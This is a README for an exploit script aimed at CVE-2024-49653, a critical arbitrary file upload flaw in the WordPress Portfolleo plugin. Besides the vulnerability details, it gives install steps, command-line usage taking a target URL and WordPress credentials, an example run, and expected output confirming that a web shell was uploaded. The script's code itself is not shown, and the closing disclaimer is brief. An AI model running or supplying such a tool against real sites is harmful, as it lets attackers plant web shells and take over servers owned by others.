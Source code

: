 # 📜 WordPress Portfolleo Plugin Exploit (CVE-2024-49653)

## 🚨 Vulnerability Details


**Title:** WordPress Portfolleo plugin <= 1.2 - Arbitrary File Upload vulnerability

**Description:**  
Unrestricted Upload of File with Dangerous Type vulnerability in James Eggers Portfolleo portfolleo allows uploading a web shell to a web server. This issue affects Portfolleo from version n/a through 1.2.

**Learn More:**  
- [CWE-434: CWE-434 Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)

**CVSS Score:**  
- **Score:** 9.9  
- **Severity:** CRITICAL  
- **Version:** 3.1  
- **Vector String:** CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H

## 📋 User Guide

### 🚀 Script Usage

This script exploits the Arbitrary File Upload vulnerability in the WordPress Portfolleo plugin (versions <= 1.2) to upload a web shell.

### 📦 Requirements

You need to have the following installed to run the script:
- Python 3
- `requests` library
- `beautifulsoup4` library

You can install the required libraries using:
```sh
pip install requests beautifulsoup4
```

### 🛠️ Usage

Run the script with the following options:

```sh

CVE-2024-49653.py [-h] -u URL -U USERNAME -p PASSWORD

WordPress Portfolleo plugin <= 1.2 - Arbitrary File Upload vulnerability # by Khaled Alenazi

options:
  -h, --help            show this help message and exit
  -u, --url URL         Base URL of the site (e.g. http://target/wordpress)
  -U, --username USERNAME
                        WordPress username
  -p, --password PASSWORD
                        WordPress password
```

### 📝 Example

```sh
 
python CVE-2024-49653.py -u http://target/wordpress.com -U Nxploited -p password123
```

### 📊 Expected Output

If the script runs successfully, you should see the following output:

```
[+] Logged in successfully.
[+] Extracted _wpnonce: e5f7ffa134
[+] Shell has been uploaded.
[*] Check the shell here: http://target.com/wp-content/portfolleo/nxploit.php
```

### ⚠️ Disclaimer

This script is intended for educational purposes only. The author does not condone the use of this script for illegal activities. Use it responsibly and only on systems you have explicit permission to test.

*By: Nxploited | Khaled Alenazi*
